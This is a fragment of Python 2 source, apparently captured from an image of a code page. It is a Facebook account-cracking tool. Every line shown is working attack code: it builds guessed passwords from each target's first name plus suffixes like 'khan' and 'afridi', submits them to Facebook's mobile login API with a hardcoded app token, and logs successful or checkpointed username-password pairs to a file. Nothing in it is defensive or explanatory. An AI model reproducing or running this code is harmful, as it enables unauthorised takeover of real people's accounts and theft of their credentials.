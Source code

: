 											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass5

													cek = open("out/checkpoint.txt", "a")

													cek.write(user+"|"+pass5+"\n")

													cek.close()

													cekpoint.append(user+pass5)

												else:

													pass6 = b['first_name'] + 'khan'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:

														print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass6

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass6

															cek = open("out/checkpoint.txt", "a")

															cek.write(user+"|"+pass6+"\n")

															cek.close()

															cekpoint.append(user+pass6)

														else:

															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

															b = json.loads(a.text)

															pass7 = b['first_name'] + 'afridi'

															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

															q = json.load(data)

															if 'access_token' in q:

																print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass7
